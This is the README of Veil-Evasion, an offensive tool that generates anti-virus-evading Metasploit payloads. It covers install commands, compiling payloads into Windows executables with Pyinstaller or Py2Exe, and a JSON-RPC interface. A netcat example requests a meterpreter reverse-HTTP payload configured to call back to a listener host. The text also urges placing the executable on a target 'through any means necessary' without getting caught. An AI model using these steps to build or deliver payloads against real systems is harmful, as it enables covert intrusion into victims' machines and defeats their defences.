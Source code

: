 # Veil-Evasion

Veil-Evasion is a tool designed to generate metasploit payloads that bypass common anti-virus solutions.

NOTE: `./setup/setup.sh` should be re-run on every major version update. If you receive any major errors on running Veil-Evasion, first try re-running this script to install any additional packages and update the common configuration file.

Veil-Evasion is currently under active support by @ChrisTruncer, @TheMightyShiv, @HarmJ0y.

Thanks to:
* @jasonjfrank
* @mjmaley
* @davidpmcguire

## Software Requirements:

### Linux

1.  Use Kali (x86) and all dependencies are pre-installed

**or**

1.  Install Python 2.7
2.  Install PyCrypto >= 2.3

### Windows (for Py2Exe compilation)

1.  Python (tested with x86 - http://www.python.org/download/releases/2.7/)
2.  Py2Exe (http://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/)
3.  PyCrypto (http://www.voidspace.org.uk/python/modules.shtml)
4.  PyWin32 (http://sourceforge.net/projects/pywin32/files/pywin32/Build%20218/pywin32-218.win32-py2.7.exe/download)

## Setup (tl;dr)

Run `./setup/setup.sh` on Kali x86 (for Pyinstaller).

Install Python 2.7, Py2Exe, PyCrypto, and PyWin32 on a Windows computer (for Py2Exe).

### Quick Install

```bash
sudo apt-get -y install git
git clone https://github.com/Veil-Framework/Veil-Evasion.git
cd veil-Evasion/
bash setup/setup.sh -s
```

## Description

Veil-Evasion was designed to run on Kali Linux, but should function on any system capable of executing python scripts.  Simply call Veil-Evasion from the command line, and follow the menu to generate a payload.  Upon creating the payload, Veil-Evasion will ask if you would like the payload file to be converted into an executable by Pyinstaller or Py2Exe.

If using Pyinstaller, Veil-Evasion will convert your payload into an executable within Kali.

If using Py2Exe, Veil-Evasion will create three files:

* payload.py - The payload file
* setup.py - Required file for Py2Exe
* runme.bat - Batch script for compiling the payload into a Windows executable

Move all three files onto your Windows machine with Python installed.  All three files should be placed in the root of the directory Python was installed to (likely C:\Python27).  Run the batch script to convert the Python script into an executable format.

Place the executable file on your target machine through any means necessary and don't get caught!

## RPC Server
On the listener side, run:

`./Veil-Evasion --rpc`

This will start a listener on port 4242.

On the client side, you will need to run a client program. This can be a custom script or can be as simple as Netcat. The RPC server implements JSON-RPC. This is a good reference for interpreting requests and responses for JSON-RPC: http://json-rpc.org/wiki/specification

The RPC request format is as follows:

```
    method="version"            -   return the current Veil-Evasion version number
    method="payloads"           -   return all the currently loaded payloads
    method="payload_options"
        params="payload_name"   -   return the options for the specified payload
    method="generate"
        params=["payload=X",   
                "outputbase=Y"
                "overwrite=Z",
                "msfvenom=...",
                "LHOST=blah]     -   generate the specified payload with the given options and returns the path of the generated executable
```

This is a simple example of working with Veil-Evasion using Netcat:


```
root@kali:~# nc 127.0.0.1 4242
{"method":"version","params":[],"id":0}
```

And the server response:


```
{"id":0,"result":"2.21.4","error":null}

```

An example of a client program can be found here: http://github.com/miligulmohar/python-symmetric-jsonrpc/blob/master/examples/client.py

Note: The port for Veil-Evasion is 4242. This must be changed in client.py in order to work with it.

In order to generate a payload, *ALL* parameters must be included:

* payload - which payload to generate
* outputbase - the name to save the payload as
* LHOST - the ip address for the listening host
* LPORT - the port for the listening host
* pwnstaller - True to package python programs into an executable. False if not. Ignored for other payloads

This is a good reference to understand whether or not in use pwnstaller: http://www.verisgroup.com/blog/2014/05/07/pwnstaller-and-the-veil-framework/

An example of generating a payload:

```
root@kali:~# nc 127.0.0.1 4242
{"method":"generate","params":["payload=c/meterpreter/rev_http","outputbase=payloadName","LHOST=192.168.1.11","LPORT=2121","pwnstaller=False"],"id":1"}
```

And the server response:

```
{"id":8,"result":"/usr/share/veil-output/compiled/payloadName.exe","error":null}
```

Note: If there is no id specified in the request, Veil-Evasion will shut down. That being said, you can make as many valid requests as you would like until Veil-Evasion shuts down.

To shut down the RPC server run:

`./Veil-Evasion --rpcshutdown`
